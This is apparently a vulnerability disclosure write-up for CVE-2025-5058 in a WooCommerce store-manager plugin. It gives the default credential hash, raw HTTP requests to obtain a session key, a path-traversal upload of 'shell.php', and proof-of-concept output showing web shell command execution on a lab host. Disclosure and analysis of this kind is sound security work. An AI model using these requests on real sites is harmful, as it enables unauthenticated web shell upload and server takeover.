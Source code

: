 +++
title = 'eMagicOne Store Manager for WooCommerce <= 1.2.5 - Unauthenticated Arbitrary File Upload via set_image Task'
date = 2025-05-23T05:30:12+00:00
hideToc = true
+++
### CVE-2025-5058

The [eMagicOne Store Manager for WooCommerce](https://wordpress.org/plugins/store-manager-connector/) plugin exposes a remote management protocol endpoint (`?connector=bridge`) that allows file uploads to the server. The authentication mechanism relies on a default credential pair (`login=1`, `password=1`) and a session key system. If the default credentials are not changed, an attacker can trivially authenticate, obtain a session key, and upload arbitrary files (including PHP shells) to the WordPress root or any writable directory via the `set_image` task.



## Reproduction
* A POC [CVE-2025-5058.py](https://github.com/d0n601/CVE-2025-5058/blob/main/CVE-2025-5058.py) is provided to demonstrate an attacker uploading a web shell named `shell.php`.

```console
python CVE-2025-5058.py https://lab1.hacker      

[*] Requesting session key...
[*] Raw response: {"response_code":20,"revision":11,"module_version":"1.2.5","session_key":"03877e9c7c21be0a8022d0d9397bb5c4d153a7cd51d2ddc2c398465160747f24"}
[+] Got session key: 03877e9c7c21be0a8022d0d9397bb5c4d153a7cd51d2ddc2c398465160747f24
[*] Uploading file via set_image...
[*] Upload response: <br />
<b>Warning</b>:  Trying to access array offset on false in <b>/home/vagrant/research/Lab1/wp-content/plugins/store-manager-connector/classes/class-emosmcwoocommerceoverrider.php</b> on line <b>324</b><br />
<br />
<b>Warning</b>:  Trying to access array offset on false in <b>/home/vagrant/research/Lab1/wp-content/plugins/store-manager-connector/classes/class-emosmcwoocommerceoverrider.php</b> on line <b>325</b><br />
{"response_code":"19","message":"Unable to resize one or more of your pictures"}
[*] Executing Web Shell Commands...
<pre>1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:5b:34:2f brd ff:ff:ff:ff:ff:ff
    altname enp0s3
    inet 10.0.2.15/24 metric 100 brd 10.0.2.255 scope global dynamic eth0
       valid_lft 82708sec preferred_lft 82708sec
    inet6 fd17:625c:f037:2:a00:27ff:fe5b:342f/64 scope global dynamic mngtmpaddr noprefixroute 
       valid_lft 85990sec preferred_lft 13990sec
    inet6 fe80::a00:27ff:fe5b:342f/64 scope link 
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:39:ea:eb brd ff:ff:ff:ff:ff:ff
    altname enp0s8
    inet 192.168.56.56/24 brd 192.168.56.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fe39:eaeb/64 scope link 
       valid_lft forever preferred_lft forever
4: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:0a:f0:30:8c brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
</pre>
```

## Vulnerable Flow
### Default Credentials and Hash Calculation

On plugin activation, the following constants are set in `smconnector.php`:

```php
define( 'EMO_SMC_DEFAULT_LOGIN', '1' );
define( 'EMO_SMC_DEFAULT_PASSWORD', '1' );
```

The default hash used for authentication is:
```php
'smconnector_hash'   => md5( EMO_SMC_DEFAULT_LOGIN . EMO_SMC_DEFAULT_PASSWORD ),
```
**Result:** The default hash is `md5('1' . '1')` = `c4ca4238a0b923820dcc509a6f75849b`.


### Session Key Acquisition
A session key is obtained by sending a POST request to the bridge endpoint with the hash and a task (e.g., `get_version`):

```http
POST /?connector=bridge
Content-Type: application/x-www-form-urlencoded

hash=c4ca4238a0b923820dcc509a6f75849b&task=get_version
```

**Relevant code:**  
`classes/class-emosmconnectorcommon.php` (lines ~441-525):

```php
private function check_auth() {
    if ( $this->shop_cart->isset_request_param( 'key' ) ) {
        // ... session key validation ...
    } elseif ( $this->shop_cart->isset_request_param( 'hash' ) ) {
        $hash = (string) $this->shop_cart->get_request_param( 'hash' );
        if ( ! $this->is_hash_valid( $hash ) ) {
            // ... error ...
        }
        $key = $this->generate_session_key( $hash );
        // ... return session key ...
    }
}
```

---

### Session Key Storage

The session key is stored in the `wp_smconnector_session_keys` table:

```php
private function generate_session_key( $hash ) {
    $key = hash( 'sha256', $hash . $timestamp );
    $sql = 'INSERT INTO `' + self::TABLE_SESSION_KEYS
        + "` (`session_key`, `date_added`, `last_activity`) VALUES ('" + $this->shop_cart->p_sql( $key ) + "', '"
        + $date + "', '" + $date + "')";
    $this->shop_cart->exec_sql( $sql );
    return $key;
}
```


### Arbitrary File Upload
With a valid session key, an attacker can upload a file using the `set_image` task, abusing the parameters to write arbitrary files:

```http
POST /?connector=bridge
Content-Type: multipart/form-data

task=set_image&entity_type=product&image_id=../../shell.php&key=<session_key>
file=@shell.php;type=text/plain
```

**Relevant code:**  
`classes/class-emosmconnectorcommon.php` (lines ~2115+):

```php
private function set_image() {
    // ... parameter checks ...
    if ( ! $this->shop_cart->set_image( $entity_type, $image_id, self::UPLOAD_FILE_NAME, $type ) ) {
        $this->generate_error( $this->br_errors['upload_image_error'] );
    }
}
```

`classes/class-emosmcwoocommerceoverrider.php` (lines ~272+):

```php
public function set_image( $entity_type, $image_id, $img, $type ) {
    // ...
    $destination_path = $this->get_shop_root_dir() . "$entity_type/$image_id";
    // ...
    $result = move_uploaded_file( $tmp_name, $destination_path );
    // ...
}
```

**Result:** The file is written to the WordPress root (or any specified directory, via path traversal in image_id). 